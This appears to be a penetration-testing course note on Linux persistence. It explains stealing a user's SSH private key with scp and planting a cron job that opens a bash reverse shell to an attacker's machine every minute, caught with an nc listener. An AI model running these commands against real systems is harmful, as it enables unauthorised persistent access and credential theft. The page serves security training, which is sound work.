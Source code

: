 # 9 - Linux Persistence

## <mark style="color:red;">Persistence Via SSH Keys</mark>

* Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
* If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
* In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
* After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
scp <username>@<targetIP>:<pathToFile> <localPath> #Download a file onto the local machine from the target machine using SSH and legitimate credentials

ssh -i <privateKey> <username>@<targetIP> #Log into the target system via SSH using a private key.
```
{% endcode %}



## <mark style="color:red;">Persistence Via Cron Jobs</mark>

* Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specific schedule.
* An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.
* We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

### **Anatomy Of A Cron Job**

<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/cron* #Display every cron jobs on the system.

echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<kaliIP>/1234 0>&1'" > <cronFileName> #Create a cron file connecting to our machine every minute.

crontab -i <cronFile> #Add the cron file to the crontab.
crontab -l #List the cron jobs for the current user.
# when we delete the "wait" binary, our connection closes.

# to gain persistence, we setup a listener.
nc -nvlp 1234 # the cron job executes and we get a bash shell.
```
{% endcode %}



